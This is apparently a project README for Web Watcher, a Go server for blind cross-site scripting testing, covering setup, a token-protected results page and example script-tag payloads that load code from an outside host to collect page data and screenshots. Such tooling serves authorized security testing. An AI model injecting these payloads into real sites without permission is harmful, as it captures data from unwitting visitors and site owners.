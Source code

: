 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  


## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



